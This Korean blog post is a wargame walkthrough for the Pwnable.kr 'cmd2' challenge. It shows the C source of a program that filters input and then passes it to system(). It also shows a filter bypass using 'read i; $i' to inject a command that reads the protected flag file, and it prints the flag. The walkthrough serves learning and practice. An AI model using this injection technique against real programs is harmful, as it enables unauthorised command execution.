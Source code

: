 ```yaml
---
title: Pwnable.kr cmd2
categories: [Wargame]
tags: [Pwnable.kr]
path: '/articles/2016-08/Pwnable.kr-cmd2'
date: '2016-08-28T00:00:00.000Z'
comments: true
---
```


cmd1의 플래그를 패스워드로 사용하여 cmd2에 접속할 수 있다.

```c
cmd2@ubuntu:~$ cat cmd2.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}

extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++)    memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
```

저번 문제에서 사용했던 <code><b>``</b></code>와 **`/`**를 사용할 수 없게 되었다.

그리고 추가적으로 환경변수를 모두 제거하여 환경변수에 등록하여 사용하는 방법은 막히게 되었다.

그럼 이 문제는 다른 방법으로 풀어야 하는데, 이 문제에서 사용할 수 있는 방법은 배쉬의 `기본함수`를 이용하는 방법이다.

내가 선택한 방법은 `read`를 이용한 방법이다.

read는 읽어들여 변수에 저장하는 방법이다. 명령을 읽어들이게 하여 `system`함수에서 읽어들인 명령을 수행하도록 만드는게 목표이다.

```bash
cmd2@ubuntu:~$ read i; echo $i
test
^D
test
```

다음과 같이 읽어들인 내용이 i변수에 저장됨을 볼 수 있다. `$i`를 `echo`의 인자로 주었는데 인자로 주지 않고 수행하는것을 보자.

```bash
cmd2@ubuntu:~$ read i; $i
ls
^D
cmd2  cmd2.c  flag
```

ls 명령이 정상적으로 실행된다. `read i; $i` 라는 문자열은 filter에 걸리지 않으므로 정상적으로 수행시킬 수 있는 내용이다.

이를 이용하여 문제를 해결해 보도록 하겠다.

```bash
cmd2@ubuntu:~$ ./cmd2 "read i; \$i"
read i; $i
/bin/cat /home/cmd2/flag
FuN_w1th_5h3ll_v4riabl3s_haha
```
